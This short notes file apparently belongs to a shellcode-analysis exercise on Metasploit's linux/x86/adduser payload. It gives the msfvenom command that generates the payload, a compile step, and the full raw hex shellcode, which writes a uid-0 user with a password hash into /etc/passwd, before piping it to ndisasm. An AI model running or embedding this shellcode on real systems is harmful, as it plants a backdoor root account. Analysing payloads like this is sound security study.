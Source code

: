 # A5 - Shellcode Analysis

# linux/x86/adduser

Get shellcode:
`msfvenom -p linux/x86/adduser USER=user PASS=pass -f c`

*Add to shellcode.c*

Compile shellcode:
`gcc shellcode.c -o shellcode`

*Doesn't seem to work with sctest*

Ndisasm:
`echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x22\x00\x00\x00\x75\x73\x65\x72\x3a\x41\x7a\x77\x31\x37\x63\x54\x6e\x6e\x4a\x41\x41\x41\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u - -b 32 -p intel > linux-x86-adduser.ndisasm`
